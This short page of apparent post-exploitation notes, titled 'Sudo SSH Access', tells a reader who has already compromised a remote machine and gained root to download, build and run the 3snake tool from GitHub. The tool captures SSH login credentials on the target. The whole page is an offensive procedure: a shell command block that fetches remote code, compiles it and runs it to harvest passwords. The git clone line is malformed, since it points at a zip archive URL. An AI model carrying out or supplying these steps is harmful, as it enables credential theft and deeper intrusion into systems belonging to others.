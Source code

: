 # Sudo SSH Access

You have compromised a remote machine and get root
This well capture creds information on ssh login.

Run this script on target machine

```sh
git clone https://www.github.com/blendin/3snake/archive/master.zip
unzip master.zip
cd 3snake-master
make
./3snake
```